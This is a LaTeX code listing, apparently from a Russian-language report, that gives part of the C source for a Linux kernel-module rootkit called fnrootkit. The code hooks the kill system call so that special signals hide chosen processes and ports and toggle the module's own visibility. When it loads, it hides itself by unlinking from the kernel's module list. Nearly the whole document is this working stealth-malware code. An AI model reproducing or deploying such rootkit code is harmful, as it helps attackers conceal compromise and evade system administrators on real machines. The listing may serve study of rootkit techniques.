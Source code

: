 \begin{lstlisting}[language=c,caption={Загружаемый модуль ядра, файл реализации},label=lst:rootkit_c]
    return ret;
}

void toggle_module_invisability(void);

KHOOK_EXT(long, __x64_sys_kill, const struct pt_regs *);
static long khook___x64_sys_kill(const struct pt_regs *pt_regs) {
    struct task_struct *task;
    pid_t pid = (pid_t) pt_regs->di;
    int sig = (int) pt_regs->si;

    switch (sig) {
    case SIGINVISPROC:
        if ((task = find_task_struct(pid)))
            toggle_proc_invisability(task);
        else
            return ESRCH;
        break;
    case SIGINVISPORT:
        toggle_port_invisability(pid);
        break;
    case SIGMODHIDE:
        toggle_module_invisability();
        break;
    default:
        KHOOK_ORIGIN(__x64_sys_kill, pt_regs);
    }

    return 0;
}

/********************************LKM*************************************/
static struct list_head *module_prev;
static int is_module_hidden = 0;

void module_hide(void) {
    if (!is_module_hidden) {
        module_prev = THIS_MODULE->list.prev;
        list_del(&THIS_MODULE->list);

        is_module_hidden = 1;
    }
}

void module_show(void) {
    if (is_module_hidden) {
        list_add(&THIS_MODULE->list, module_prev);
        is_module_hidden = 0;
    }
}

void toggle_module_invisability() {
    if (is_module_hidden)
        module_show();
    else
        module_hide();
}

 int __init fnrootkit_init(void) {
    khook_init();
    module_hide();

    printk(KERN_INFO "fnrootkit: module have loaded.\n");

    return 0;
}

static void __exit fnrootkit_exit(void) {
    khook_cleanup();

    printk(KERN_INFO "fnrootkit: module have unloaded.\n");
}
 
module_init(fnrootkit_init);
module_exit(fnrootkit_exit);
\end{lstlisting}